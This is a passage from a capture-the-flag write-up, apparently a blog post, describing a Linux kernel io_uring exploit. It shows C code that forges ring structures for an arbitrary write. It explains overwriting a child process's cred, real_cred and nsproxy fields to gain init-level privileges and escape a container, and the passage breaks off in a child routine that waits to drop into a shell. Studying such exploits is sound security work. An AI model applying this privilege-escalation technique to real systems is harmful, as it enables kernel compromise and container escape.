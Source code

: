 ```c
    *rings_ptr = where - 0xc0;

    // Set ctx->cached_cq_tail which is our what
    size_t cq_tail = g_scratch + 0x250;
    cq_tail &= 0xFFF;
    uint32_t *cq_tail_ptr = (uint32_t *)&buf[cq_tail];
    *cq_tail_ptr = what;

    // Set ctx->cq_wait the list head to itself (so that it's "empty")
    size_t real_cq_wait = g_scratch + 0x268;
    size_t cq_wait = (real_cq_wait & 0xFFF);
    uint64_t *cq_wait_ptr = (uint64_t *)&buf[cq_wait];
    *cq_wait_ptr = real_cq_wait;
}
```

### Performing Our Writes
Now, it's time to do our writes. Remember those three sequential writes we were going to use inside of `io_fill_cqe_aux`, but I said they wouldn't work with the exploit plan? Well the reason was, those three writes were as follows:
```c
cqe = io_get_cqe(ctx);
	if (likely(cqe)) {
		WRITE_ONCE(cqe->user_data, user_data);
		WRITE_ONCE(cqe->res, res);
		WRITE_ONCE(cqe->flags, cflags);
```

They worked really well *until* I went to overwrite the target `nsproxy` member of our target child `task_struct`. One of those writes inevitably overwrote the members right next to `nsproxy`: `signal` and `sighand`. This caused big problems for me because as interrupts occurred, those members (pointers) would be deref'd and cause the kernel to panic since they were invalid values. So I opted to just the 4-byte write instead inside `io_commit_cqring`. The 4-byte write also caused problems in that at some points `current` has it's creds checked and with what basically amounted to a torn 8-byte write, we would leave `current` cred values in invalid states during these checks. This is why I had to use a child process. Huge shoutout to @pqlpql for tipping me off to this. 

Now we can just use those same steps to overwrite the three members `real_cred`, `cred`, and `nsproxy` and now our child has all of the same privileges and capabilities including visiblity into the host root file system that `init` does. This is perfect, but I still wasn't able to get the flag!

I started to panic at this point that I had seriously done something wrong. The exploit if FULL of paranoid checks: I reread every overwritten value to make sure it's correct for instance, so I was confident that I had done the writes properly. It felt like my namespace was somehow not effective yet in the child process, like it was cached somewhere. But then I remembered in Andy Nguyen's blog post, he used his `root` privileges to explictly set his namespace values with calls to `setns`. Once I added this step, the child was able to see the root file system and find the flag. Instead of giving my child the same namespaces as `init`, I was able to give it the same namespaces of itself lol. I still haven't followed through on this to determine how `setns` is implemented, but this could probably be done without explicit `setns` calls and only with our read and write tools:
```c
// Our child waits to be given super powers and then drops into shell
void child_exec(void)
{
    // Change our taskname 
    if (prctl(PR_SET_NAME, TARGET_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    while (1)
    {
        if (*(int *)g_shmem == 0x1337)
        {
            sleep(3);
```